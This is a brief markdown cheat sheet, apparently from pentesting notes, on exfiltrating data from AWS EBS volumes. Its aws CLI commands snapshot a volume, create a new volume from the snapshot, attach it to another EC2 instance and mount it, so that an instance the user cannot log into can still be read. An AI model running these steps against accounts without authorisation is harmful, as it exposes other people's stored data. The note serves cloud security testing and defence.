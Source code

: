 # AWS EBS Exploitation and Data Exfiltration

### Create a snapshot of an EC2 instance, create a volume from snapshot and attach to other EC2 instance.

### User need to have IAM permissions on EC2

### Maybe we don't have the right to access the instance but have rights to create a snapshot and attach it to another machine.

## Steps:

#### 1) Creating a snapshot of a specified volume

 - aws ec2 create-snapshot --volume VOLUME_ID --description "Example" --profile PROFILE_NAME

#### 2) Listing snapshots

 - aws ec2 describe-snapshots

#### 3) Creating a volume from a snapshot

 - aws ec2 create-volume --snapshot-id ID --availability-zone ZONE --profile PROFILE_NAME

### The volume needs to be in the same availability zone as the instance we have access

#### 4) Attaching the volume to an instance

 - aws ec2 attach-volume --volume-id VOLUME_ID --instance-id INSTANCE_ID --device /dev/sdfd

#### 5) Mounting the volume

 - sudo mount /dev/sdfd /directory

### After mounting, we will have access to the disk
